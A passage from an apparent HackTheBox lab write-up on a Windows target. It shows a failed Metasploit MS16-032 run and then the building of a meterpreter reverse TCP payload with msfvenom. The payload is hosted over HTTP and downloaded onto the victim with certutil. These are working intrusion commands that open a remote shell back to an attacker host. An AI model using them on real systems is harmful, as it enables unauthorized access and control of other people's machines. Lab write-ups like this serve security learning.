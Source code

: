 ```
session => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.10.x.x:4545 
[-] Exploit aborted due to failure: none: Session is already elevated
[+] Deleted 
[*] Exploit completed, but no session was created.
```
Same thing, SESSION may not be compatible with this module. But Session is already elevated.. what??

## 6. Second Attempt on MS14-058 & MS16-032
Let's create a Meterpreter reverse shell payload, transfer and run it.
```
hippoeug@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4545 -f exe -o meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: meterpreter.exe
```
We now need to transfer this file over to the target machine. Using the previous infrastructure `sudo python -m SimpleHTTPServer 80`, we can host the file.

Let's go back to the regular shell and download our hosted `meterpreter.exe`. We can refer to our old attempt on HTB, [Devel](https://github.com/HippoEug/HackTheBox/blob/main/Machines%20(Easy)/Devel.md) where we used `certutil.exe` to download the payload.
```
msf5 > sessions -i 1
[*] Starting interaction with 1...

C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f "http://10.10.x.x:80/meterpreter.exe" meterpreter.exe
certutil.exe -urlcache -split -f "http://10.10.x.x:80/meterpreter.exe" meterpreter.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

23/01/2021  04:59 ��    <DIR>          .
23/01/2021  04:59 ��    <DIR>          ..
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
23/01/2021  05:04 ��             7.168 meterpreter.exe
               2 File(s)        767.488 bytes
               2 Dir(s)  31.897.223.168 bytes free
```
We got our payload in successfully!

